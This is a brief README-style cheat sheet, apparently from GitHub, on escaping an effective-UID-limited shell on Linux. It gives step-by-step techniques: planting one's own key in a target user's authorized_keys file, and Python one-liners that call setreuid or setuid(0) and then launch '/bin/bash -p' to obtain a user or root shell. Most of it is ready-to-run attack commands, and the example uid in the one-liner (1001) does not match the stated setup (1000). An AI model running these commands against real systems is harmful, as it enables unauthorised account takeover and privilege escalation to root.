# Techniques to Escape EUID Limited Shell to UID Shell

## PoC in video format: https://youtu.be/xLb2wo66Xr0

## For normal euid

1) using public key authentication technique to escape

-check the .ssh if we have write permission on authorized_keys

-write our own public key into the authorized_keys file

-ssh into the user with our own private key

//notes: the public-private key pair can be generated using ssh-keygen

2) using python to setreuid to escape

current setup:
```
euid user: 1000(Eve)
uid user: 33 (www-data)
```
rough idea how it works executing step by step:
```
$python
>>import os
>>os.setreuid(1000,1000)	#setreuid(ruid,euid)
>>os.system("/bin/bash -p")
```
one line command:
```
python -c 'import os;os.setreuid(1001,1001);os.system("/bin/bash -p")'
```
## For root euid

1) can use the normal euid user public key authentication technique
2) use python to setuid & escape EUID limited shell

rough idea how it works executing step by step:


```
#python
>>import os
>>os.setuid(0)
>>os.system("/bin/bash -p")
```
one line command:
```
python -c 'import os;os.setuid(0);os.system("/bin/bash -p")'
```
